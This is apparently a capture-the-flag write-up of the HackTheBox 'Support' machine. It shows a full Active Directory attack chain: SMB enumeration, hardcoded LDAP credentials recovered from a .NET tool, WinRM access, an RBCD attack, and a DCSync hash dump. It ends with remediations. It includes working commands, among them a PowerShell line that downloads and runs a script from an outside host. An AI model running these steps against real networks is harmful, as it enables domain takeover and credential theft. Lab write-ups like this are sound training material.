







+++
date = '2026-07-03T16:09:13+00:00'
draft = false
title = 'Support — HackTheBox'
tags = ["HackTheBox", "Windows", "Active Directory", "LDAP", "SMB", "RBCD", "Impacket", "BloodHound", "CTF Writeup"]
feature = 'feature.png'
showTableOfContents = true
+++

## Overview

Support is a HackTheBox machine featuring a single Windows Domain Controller running Active Directory. The attack chain begins with SMB enumeration that reveals a custom .NET application called UserInfo.exe in an open share. Reverse engineering the application exposes hardcoded LDAP credentials, which are used to dump the domain via ldapdomaindump. A password found in the `info` attribute of the `support` user enables WinRM access. BloodHound analysis reveals that the Shared Support Accounts group has **GenericAll** on the DC computer object, allowing a Resource-Based Constrained Delegation (RBCD) attack that leads to full domain compromise through DCSync.

## Step 1: Reconnaissance and Enumeration

A full port scan identified the machine as a Windows Domain Controller.

```
nmap -sV -sC -p- 10.129.41.4
```

```
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: support.htb)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: support.htb)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49678/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49690/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49695/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49710/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
```

**Key Findings:**

- Domain identified as `support.htb`.
- SMB (445) and WinRM (5985) are open.
- LDAP (389/3268) and Kerberos (88) are available for AD enumeration.

### SMB Share Enumeration

Null session access returned nothing, but guest authentication revealed a custom share.

```
nxc smb 10.129.41.4 -u '' -p ''
nxc smb support.htb -u guest -p '' --shares
```



The non-standard share `support-tools` was accessible.

```
smbclient \\\\10.129.41.4\\support-tools
```



Inside the share were common IT tools. One file stood out as custom software — `UserInfo.exe.zip`.





## Step 2: Initial Access

### Reverse Engineering UserInfo.exe

The zip file was extracted, revealing a .NET application.

```
unzip UserInfo.exe.zip
```



The config file showed it connects to `LDAP://support.htb`.



Strings from the binary revealed LDAP authentication references.



Decompiling the source code with dnSpy exposed a hardcoded encrypted password in `UserInfo.Services.Protected.cs` with an XOR decryption routine using the key `armando`. Decrypting the base64-encoded blob yielded the `ldap` service account credentials:

- **Username:** `ldap`
- **Password:** `<REDACTED>`

### LDAP Domain Dump

Using the recovered credentials, the domain was enumerated with ldapdomaindump.

```
ldapdomaindump 'ldap://support.htb' -u 'support.htb\ldap' -p '<REDACTED>'
```

The dumped `domain_users.json` revealed that the `support` user's `info` attribute contained a plaintext password:

```json
"info": ["<REDACTED>"]
```

### WinRM Access

The `support` user was a member of Remote Management Users, granting WinRM access.

```
evil-winrm -u support -p <REDACTED> -i 10.129.41.4
```

## Step 3: Domain Enumeration with BloodHound

SharpHound was executed from the WinRM session to collect Active Directory data. The resulting BloodHound analysis revealed a critical privilege:

```
support → Shared Support Accounts → GenericAll → DC.SUPPORT.HTB
```

The `Shared Support Accounts` group (containing only the `support` user) had **GenericAll** on the `DC$` computer object. This grants full control, including the ability to modify `msDS-AllowedToActOnBehalfOfOtherIdentity` — the key to an RBCD attack.

Additional details:

- **MachineAccountQuota:** 10 (any user can create computer accounts)
- **Lockout Threshold:** 0 (no lockout)
- **Domain Admins:** Only `Administrator`

## Step 4: Privilege Escalation via RBCD

Resource-Based Constrained Delegation allows a computer account to impersonate any user to services on a target computer if the target's `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute is set to allow it.

### Creating a Machine Account

Powermad was loaded and a fake computer account was created.

```powershell
iex (new-object net.webclient).downloadstring('http://10.10.14.208:8000/Powermad.ps1')
New-MachineAccount -MachineAccount k40t1k -Password $(ConvertTo-SecureString '<REDACTED>' -AsPlainText -Force) -Verbose
```

### Retrieving the SID

```powershell
Get-DomainComputer k40t1k
```

The SID `S-1-5-21-1677581083-3380853377-188903654-6104` was noted.

### Setting RBCD on the Domain Controller

A security descriptor was crafted granting `k40t1k$` delegation rights to `DC$`.

```powershell
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-1677581083-3380853377-188903654-6104)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer dc | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
```

### Requesting a Ticket as Administrator

Back on Kali, a forwardable TGS ticket was requested impersonating Domain Administrator.

```bash
impacket-getST 'support.htb/k40t1k$' -spn http/dc.support.htb \
  -hashes :$(echo -n "<REDACTED>" | iconv -t utf16le | openssl md4 | cut -d' ' -f2) \
  -impersonate administrator
```

### Domain Compromise via DCSync

Using the obtained ticket, domain credentials were extracted from NTDS.dit.

```bash
export KRB5CCNAME=administrator@http_dc.support.htb@SUPPORT.HTB.ccache
impacket-secretsdump -k -no-pass dc.support.htb
```

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:<REDACTED>:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:<REDACTED>:::
support:1105:aad3b435b51404eeaad3b435b51404ee:<REDACTED>:::
DC$:1000:aad3b435b51404eeaad3b435b51404ee:<REDACTED>:::
```

SYSTEM-level access was verified.

```bash
impacket-atexec -k -no-pass dc.support.htb 'whoami'
```

```
nt authority\system
```

## Conclusion

This machine demonstrated a full Active Directory attack chain from SMB reconnaissance and .NET reverse engineering to domain compromise via RBCD abuse.

**Attack Chain:**

1. SMB enumeration discovered a custom .NET tool in an open share.
2. Reverse engineering recovered hardcoded LDAP service credentials.
3. LDAP enumeration revealed the `support` user's password in the `info` attribute.
4. WinRM access as `support`.
5. BloodHound identified GenericAll on `DC$` via Shared Support Accounts.
6. A new computer account was created with Powermad.
7. RBCD was configured on `DC$`.
8. A Kerberos ticket was requested impersonating Domain Administrator.
9. DCSync extracted all domain hashes — full compromise.

**Remediations:**

- **Do not store passwords in AD attributes:** The `info` field should never contain plaintext credentials.
- **Remove hardcoded credentials from binaries:** Service account passwords should use managed service accounts or integrated Windows authentication.
- **Audit high-risk ACLs:** GenericAll on domain controller computer objects should never be delegated to non-admin groups.
- **Restrict Machine Account Quota:** Set `ms-DS-MachineAccountQuota` to 0.
- **Monitor RBCD modifications:** Audit changes to `msDS-AllowedToActOnBehalfOfOtherIdentity` on high-value targets.
